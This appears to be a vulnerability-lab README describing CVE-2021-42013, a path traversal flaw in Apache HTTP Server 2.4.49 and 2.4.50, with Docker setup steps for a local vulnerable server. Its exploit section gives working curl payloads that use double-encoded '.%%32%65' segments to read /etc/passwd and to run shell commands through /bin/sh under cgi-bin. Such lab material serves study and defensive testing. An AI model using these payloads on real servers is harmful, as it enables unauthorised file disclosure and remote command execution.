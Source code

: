 # Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.50 (CVE-2021-42013)

The Apache HTTP Server Project is an effort to develop and maintain an open-source HTTP server for modern operating systems including UNIX and Windows.

CVE-2021-42013 is a vulnerability that caused by incomplete fix of [CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773), an attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives.

This vulnerability affects Apache HTTP Server 2.4.49 and 2.4.50 and not earlier versions.

References:

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/roman_soft/status/1446252280597078024

## Vulnerable environment

Execute following commands to start a vulnerable Apache HTTP Server:

```
docker compose build
docker compose up -d
```

After the server is started, you can see the default page which says `It works!` of Apache HTTP Server through `http://your-ip:8080`.

## Exploit

Apache HTTP Server 2.4.50 patched the previous CVE-2021-41773 payload such as `http://your:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`, but it was incomplete.

Use `.%%32%65` to bypass the patches (Note that `/icons/` must be a existing directory):

```
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

The `/etc/passwd` is disclosured successfully:

![](1.png)

With the mods cgi or cgid enabled on the server, this path traversal vulnerability would allow arbitrary command execution:

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![](2.png)
